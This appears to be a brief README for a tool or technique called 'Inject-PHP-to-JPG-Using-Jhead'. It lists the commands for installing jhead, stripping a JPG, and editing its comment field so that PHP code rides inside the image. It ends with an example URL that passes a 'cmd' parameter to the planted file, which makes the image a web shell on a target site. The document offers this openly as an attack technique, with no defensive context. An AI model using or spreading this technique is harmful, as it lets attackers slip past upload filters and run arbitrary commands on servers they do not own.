 # Inject-PHP-to-JPG-Using-Jhead

$ pkg install vim or apt-get install vim

$ pkg install jhead or apt-get install jhead

$ jhead -h (for help)

$ jhead -purejpg yourfiles.jpg

$ jhead -ce yourfiles.jpg

$ jhead yourfiles.jpg

Example : site.com/youfiles.php?cmd=Command Here
